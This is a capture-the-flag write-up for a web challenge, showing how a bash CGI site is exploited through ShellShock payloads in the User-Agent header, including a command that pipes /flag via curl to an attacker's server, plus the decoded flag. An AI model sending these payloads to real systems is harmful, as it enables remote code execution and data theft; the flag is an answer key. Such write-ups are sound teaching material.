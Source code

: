 #SimpleWeb

**Category:** Web
**Points:** 40

**Description:**

You know i am a little noob in web developing. so i just started to create a simple web. But yesterday this crazy friend of mine shocked me to death and said he just hacked my webpage and can read all of my files. VOW! how the hell he did that. can you check it out. for example can you see what is in /flag to prove me he is right.

##SimpleWeb-Solution

The challenge is created using bash and cgi. It is very simple and contains nothing just a bunch of static pages. 
There is a hint in description of challenge that says: ```... But yesterday this crazy friend of mine shocked me to death ....``` and will remind us the ShellShock vulnerability that could lead to code execution on server running bash.

One of the methods to exploit using shellshock, is setting shellshock magic code ```() { :; };``` in user-agent field of http-request-header.
So let's test it. 

fire up something like tamper-data or burpsuite and set code below in user-agent:

```
() { :; } ; /bin/bash -c "cat /flag"
```

we will get a error result and will not see was is in ```/flag``` file.

```html
<h1>Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator at 
 webmaster@localhost to inform them of the time this error occurred,
 and the actions you performed just before this error.</p>
<p>More information about this error may be available
in the server error log.</p>
<hr>
<address>Apache/2.4.7 (Ubuntu) Server at 192.168.32.136 Port 80</address>
```

running some other commands, we can see that using ```ping``` will give us a huge hint:

```
() { :; } ; /bin/bash -c "ping -c 10 google.com"
```

By executing this command, page will be loaded after 10 seconds. So we definetly sure that this is ShellShock vulnerability and flag is only accessible by exploiting it.
There is no way to see the contents of ```/flag``` in the response, so we should find a way to read flag.

Magic Solution
------
What if we read ```/flag``` file, but doesn't show it's content in the response? What if we send this result back to our server.
YES.

####The solution is to read /flag, then send that result to our server using something like curl and on our server setup wireshark or read access.log file.

By using this command and firing up wireshark on our server, we could get the flag:

```
() { :; } ; /bin/bash -c "cat /flag | curl -X GET -d @- http://<our server address>"
```

This command will read contents of ```/flag``` and will pipe it into curl. curl will use this value and will send  a ```GET``` request to our server like this:

```
curl -X GET http://<our server address>/<contents of "/flag">
```

On the other hand if we check our server log-files or wireshark/tshark output, we will see a GET request for a url like below:

```
http://simpleweb.iutcert.io/Q2hldCBSYW1leSBpcyB0aGUgbWFpbnRhaW5lciBvZiBTaGVsbFNob2NrIHZ1bG5lcmFiaWxpdHkuIGZsYWcgaXMgU2gzbGw1aDBDS180MW0wNTdfayExMTNkX0I0NUhISAo
```

So the directory after simpleweb.iutcert.io, is actually the contents of ```/flag```:

```
Q2hldCBSYW1leSBpcyB0aGUgbWFpbnRhaW5lciBvZiBTaGVsbFNob2NrIHZ1bG5lcmFiaWxpdHkuIGZsYWcgaXMgU2gzbGw1aDBDS180MW0wNTdfayExMTNkX0I0NUhISAo=
```

it's obvious that it is base64-encoded. decoding it will give us:

```
Chet Ramey is the maintainer of ShellShock vulnerability. flag is Sh3ll5h0CK_41m057_k!113d_B45HHH
```

And the flag is: 
**Sh3ll5h0CK_41m057_k!113d_B45HHH**


